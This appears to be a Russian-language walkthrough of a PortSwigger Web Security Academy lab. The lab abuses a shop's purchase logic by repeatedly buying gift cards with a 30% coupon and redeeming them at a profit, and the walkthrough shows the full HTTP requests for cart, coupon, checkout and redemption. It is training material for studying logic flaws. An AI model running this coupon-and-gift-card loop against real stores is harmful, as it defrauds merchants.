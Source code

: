 Эта лаборатория имеет логический изъян в своем рабочем процессе закупок. Чтобы решить эту лабораторию, воспользуйтесь этим изъяном, чтобы купить "Легкую кожаную куртку l33t".

Вы можете войти в свою учетную запись, используя следующие учетные данные:`wiener:peter`

## Дано

- логический изъян в своем рабочем процессе закупок
- учетные данные:`wiener:peter`
## Задача

- купить "Легкую кожаную куртку l33t".
# Решение

1. Залогинемся и посмотрим этапы покупки товара
2. Есть купон `SIGNUP30` он даёт скидку на на товар 30% и есть товар подарочная карта на 10$ по итогу мы имеем 3$ за раз

|            |
| ---------- |
| IwRBF9qJvn |
| gtXb5QeLBA |

3. Надо автоматизировать
- Запрос в корзину
```
POST /cart HTTP/2
Host: 0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Cookie: session=Qi0M5HErQK2RjFuc4Xbjg4Do3jyrfZBn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Referer: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net/product?productId=2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

productId=2&redir=PRODUCT&quantity=10
```
- Запрос на купон
```
POST /cart/coupon HTTP/2
Host: 0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Cookie: session=Qi0M5HErQK2RjFuc4Xbjg4Do3jyrfZBn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Referer: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

csrf=B6YgODQMdocCpRfMCr625r15iGYW9IRN&coupon=SIGNUP30
```
- Запрос на покупку
```
POST /cart/checkout HTTP/2
Host: 0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Cookie: session=Qi0M5HErQK2RjFuc4Xbjg4Do3jyrfZBn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Referer: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

csrf=B6YgODQMdocCpRfMCr625r15iGYW9IRN
```
- запрос на просмотр купонов
```
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Cookie: session=Qi0M5HErQK2RjFuc4Xbjg4Do3jyrfZBn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```
- купоны
```
                   <table class=is-table-numbers>
                        <tbody>
                            <tr>
                                <th>Code</th>
                            </tr>
                            <tr>
                                <td>QjEXRM8XJN</td>
                            </tr>
                            <tr>
                                <td>DAfd4YnIr1</td>
                            </tr>
                            <tr>
                                <td>pkMilV9qDG</td>
                            </tr>
```
- обнал купонов
```
POST /gift-card HTTP/2
Host: 0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Cookie: session=Qi0M5HErQK2RjFuc4Xbjg4Do3jyrfZBn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net
Referer: https://0a4c00ee0352386d82a94c0000b200c2.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

csrf=B6YgODQMdocCpRfMCr625r15iGYW9IRN&gift-card=QjEXRM8XJN
```
